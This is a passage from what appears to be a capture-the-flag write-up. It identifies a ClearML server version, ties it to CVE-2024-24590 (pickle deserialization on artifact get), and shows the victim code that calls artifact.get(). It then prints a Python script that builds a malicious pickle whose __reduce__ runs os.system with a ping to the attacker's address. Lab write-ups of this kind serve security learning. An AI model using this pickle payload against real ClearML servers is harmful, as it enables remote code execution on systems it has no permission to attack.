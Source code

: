 Like I read from the chat, it’s getting tasks from the Black Swan project with the “review” tag, and then loading the artifacts.

There’s two entries under “Models”:

[![image-20240608214642457](/img/image-20240608214642457.png)*Click for full size image*](/img/image-20240608214642457.png)

## Shell as jippity

### Identify CVE

On the settings page, the version of ClearML is in the footer:

![image-20240608214418555](/img/image-20240608214418555.png)

Searching for vulnerabilities in this version, I’ll find [this blog post from Hidden Layer](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/) with a handful of CVEs, including a remote code execution vulnerability (CVE-2024-24590). It’s titled “Pickle Load on Artifact Get”. I’ll note the code from the “Review JSON Artifacts” experiment uses the `artifact.get` function:

```

def process_task(task):
    artifacts = task.artifacts
    
    for artifact_name, artifact_object in artifacts.items():
        data = artifact_object.get()
        
        if isinstance(data, dict):
            process_json_artifact(data, artifact_name)
        else:
            print(f"[!] Artifact '{artifact_name}' content is not a dictionary.")

```

### Generate Pickle Payload

My initial attempt to exploit this involved writing a couple short Python scripts like in the blog post. I’ll start with the serialized payload:

```

#!/usr/bin/env python3

import pickle
import os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('ping -c 1 10.10.14.6',))

command = RunCommand()

with open('pickle_artifact.pkl', 'wb') as f:
    pickle.dump(command, f)

```
